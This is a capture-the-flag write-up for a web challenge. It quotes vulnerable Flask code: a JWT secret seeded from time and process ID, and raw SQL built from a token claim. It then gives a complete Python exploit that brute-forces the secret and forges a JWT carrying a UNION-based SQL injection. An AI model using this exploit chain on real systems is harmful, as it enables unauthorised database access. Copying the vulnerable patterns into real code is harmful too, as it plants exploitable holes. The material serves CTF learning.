

# Your region's finest

> You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"
>
> Attachment : [app.py](app.py) , sha256 : 415a046c5c03ac1ff0646cae082503af9d6bf52b7ff6db00ff0009ab7f0b0ba
>
> `challenges.hackday.fr:58990`

The first step is to explore app.py to find a way to get the flag. We see that the flag can be found in the Flag table as a single entry.

```python
class Flag(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    flag = db.Column(db.String(100), nullable=False)
...
def create_data():
    # clear all Product db
    db.session.query(Product).delete()
    
    product1 = Product(name=f'Space Cookie', description='Cookies so delicate, they might just break! No need for brute force, one bite and they’ll melt right into your hands.', price=random.randrange(10, 100))
    product2 = Product(name='Syringe', description='To, hum, inject yourself with medicine I guess ?', price=random.randrange(10, 100))
    product3 = Product(name='Cool looking leaf', description='To add a nice scent to your house :)', price=random.randrange(10, 100))
    with open("flag.txt","r") as f:
        flag = Flag(flag=f.read().strip())
    db.session.add(product1)
    db.session.add(product2)
    db.session.add(product3)
    db.session.add(flag)
    db.session.commit()
```

So to get the flag we need to find a way to get access to that entry. Upon further investigation, we see, that we can see our favorite product in `/favorite_product_info` route. Additionally, we see that query directly takes product id from user's jwt for receiving favorite product. This gives us an opportunity for SQL injection.

```python
@app.route('/favorite_product_info')
@jwt_required()
def favorite_product_info():
    claims = get_jwt()
    favorite_product_id = claims.get('favorite_product')
    if favorite_product_id:
        favorite_product = Product.query.get(favorite_product_id)
        try:
            favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
        except Exception as e:
            return render_template('favorite_product_info.html', product=None, error=e)
        return render_template('favorite_product_info.html', product=favorite_product)

    return render_template('favorite_product_info.html', product=None)
```

Now we should check JWT logic. At the start of the app.py we see the hint that JWT_SECRET_KEY is not safe. It is actually not safe, because application uses pseudo-random with determined seed for generating secret key.

```python
# I saw in the official _randommodule.c in which both time and pid are used to seed the random generator
# So that must be a good idea, right ? :) Just gonna do it simpler here, but should be as safe.

up = math.floor(time.time())
random.seed(up + os.getpid())

app = Flask(__name__)
app.config['SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////app/data/site.db'
app.config['JWT_SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 
```

It means that we could bruteforce secret key for JWT. Moreover, we already could calculate the time when server was started due to `/healthz` route.

```python
@app.route("/healthz")
def healthz():
    return jsonify(status="OK", uptime=time.time() - up)
```

So now we know the order of our actions:
1. Register new user.
2. Get user's JWT from cookies.
3. Calculate server's start time.
4. Bruteforce PID and and find secret key for JWT.
5. Forge new JWT with SQL injection for "favorite_product" key.
6. Open `/favorite_product_info` and get the flag.

Here you can see the full [script](solution.py) to solve this task.

```python
import jwt, string, random, requests, logging, math, re, time
from datetime import datetime, timedelta

logging.basicConfig(level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")

BASE_URL = "http://challenges.hackday.fr:58990"
REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"
HEALTHZ_URL = f"{BASE_URL}/healthz"
FAVORITE_PRODUCT_INFO_URL = f"{BASE_URL}/favorite_product_info"

USERNAME = random.choice(string.ascii_letters).lower() + "".join(random.choice(string.ascii_letters + string.digits) for _ in range(7))
PASSWORD = USERNAME


def register_user():
    """Register a new user."""
    logging.info("Registering a new user.")
    response = requests.post(REGISTER_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User registered successfully.")
    else:
        logging.error("Failed to register user.")


def login_user():
    """Login the user and get the JWT from cookies."""
    logging.info("Logging in the user.")
    session = requests.Session()
    response = session.post(LOGIN_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User logged in successfully.")
        jwt_token = session.cookies.get("access_token_cookie")
        return jwt_token
    logging.error("Failed to log in user.")
    return None


def get_server_start_time():
    """Calculate the server's start time using the /healthz endpoint."""
    logging.info("Calculating server start time.")
    response = requests.get(HEALTHZ_URL)
    if response.status_code == 200:
        uptime = response.json().get("uptime")
        start_time = time.time() - uptime
        logging.info(f"Server start time calculated: {start_time}")
        return start_time
    logging.error("Failed to get server start time.")
    return None


def bruteforce_jwt_secret(start_time):
    """Bruteforce the JWT_SECRET_KEY based on the start time and PID."""
    logging.info("Starting bruteforce for JWT secret.")
    TIME_WINDOW_SECONDS = 5
    rounded_start_time = math.floor(start_time)
    possible_times = range(rounded_start_time - TIME_WINDOW_SECONDS, rounded_start_time + TIME_WINDOW_SECONDS + 1)
    for possible_up in possible_times:
        for pid in range(1, 65536):
            random.seed(possible_up + pid)
            _ = "".join(random.choice(string.printable) for _ in range(32))
            candidate_secret = "".join(random.choice(string.printable) for _ in range(32))
            try:
                jwt.decode(jwt_token, candidate_secret, algorithms=["HS256"])
                logging.info(f"JWT secret found: {candidate_secret}")
                return candidate_secret
            except jwt.InvalidTokenError:
                continue
    logging.error("Failed to bruteforce JWT secret.")
    return None


def forge_jwt(jwt_secret):
    """Forge a new JWT with an SQL injection payload."""
    logging.info("Forging a new JWT with SQL injection payload.")
    payload = {
        "sub": USERNAME,
        "favorite_product": "1 UNION SELECT 1, flag, flag, 0.0, 'static/images/default.png', 1 FROM flag LIMIT 1 --"
    }
    forged_token = jwt.encode(payload, jwt_secret, algorithm="HS256")
    logging.info("JWT forged successfully.")
    return forged_token


def get_flag(forged_token):
    """Send the forged JWT to get the flag."""
    logging.info("Sending forged JWT to retrieve the flag.")
    cookies = {"access_token_cookie": forged_token}
    response = requests.get(FAVORITE_PRODUCT_INFO_URL, cookies=cookies)
    if response.status_code == 200:
        logging.info("Successfully retrieved the response.")
        flag = re.search(r'HACKDAY\{.*?\}', response.text)
        if flag:
            logging.info(f"Succesfully retrieved the flag")
            return flag.group()
        logging.error("Flag not found in the response.")
        return response.text
    logging.error("Failed to retrieve the response.")
    return None


if __name__ == "__main__":
    register_user()
    jwt_token = login_user()

    if not jwt_token:
        logging.error("Exiting due to login failure.")
        exit(1)

    start_time = get_server_start_time()
    if not start_time:
        logging.error("Exiting due to failure in calculating server start time.")
        exit(1)

    jwt_secret = bruteforce_jwt_secret(start_time)
    if not jwt_secret:
        logging.error("Exiting due to failure in bruteforcing JWT secret.")
        exit(1)

    forged_token = forge_jwt(jwt_secret)
    flag = get_flag(forged_token)

    if flag:
        logging.info(f"Flag retrieved: {flag}")
    else:
        logging.error("Failed to retrieve the flag.")
```
Running this script will provde us the flag.



`HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}`
